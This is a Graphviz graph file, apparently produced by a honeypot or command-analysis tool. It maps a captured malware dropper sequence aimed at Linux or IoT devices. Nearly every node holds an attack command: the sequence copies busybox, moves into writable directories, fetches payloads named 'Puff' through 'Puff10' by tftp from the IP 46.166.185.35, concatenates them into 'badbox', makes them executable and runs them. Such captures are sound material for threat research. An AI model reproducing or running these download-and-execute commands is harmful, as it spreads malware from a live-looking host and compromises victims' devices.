 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 14 [label="||,"];
14 [label="tftp -r Puff -g 46.166.185.35 "];
14 -> 16 [label=";,"];
16 [label="cat Puff badbox "];
16 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 34 [label="||,"];
34 [label="tftp -r Puff1 -g 46.166.185.35 "];
34 -> 36 [label=";,"];
36 [label="cat Puff1 badbox "];
36 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 54 [label="||,"];
54 [label="tftp -r Puff2 -g 46.166.185.35 "];
54 -> 56 [label=";,"];
56 [label="cat Puff2 badbox "];
56 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 74 [label="||,"];
74 [label="tftp -r Puff3 -g 46.166.185.35 "];
74 -> 76 [label=";,"];
76 [label="cat Puff3 badbox "];
76 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 94 [label="||,"];
94 [label="tftp -r Puff4 -g 46.166.185.35 "];
94 -> 96 [label=";,"];
96 [label="cat Puff4 badbox "];
96 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 114 [label="||,"];
114 [label="tftp -r Puff5 -g 46.166.185.35 "];
114 -> 116 [label=";,"];
116 [label="cat Puff5 badbox "];
116 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 134 [label="||,"];
134 [label="tftp -r Puff6 -g 46.166.185.35 "];
134 -> 136 [label=";,"];
136 [label="cat Puff6 badbox "];
136 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 154 [label="||,"];
154 [label="tftp -r Puff7 -g 46.166.185.35 "];
154 -> 156 [label=";,"];
156 [label="cat Puff7 badbox "];
156 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 174 [label="||,"];
174 [label="tftp -r Puff8 -g 46.166.185.35 "];
174 -> 176 [label=";,"];
176 [label="cat Puff8 badbox "];
176 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 194 [label="||,"];
194 [label="tftp -r Puff9 -g 46.166.185.35 "];
194 -> 196 [label=";,"];
196 [label="cat Puff9 badbox "];
196 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 214 [label="||,"];
214 [label="tftp -r Puff10 -g 46.166.185.35 "];
214 -> 216 [label=";,"];
216 [label="cat Puff10 badbox "];
216 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
}
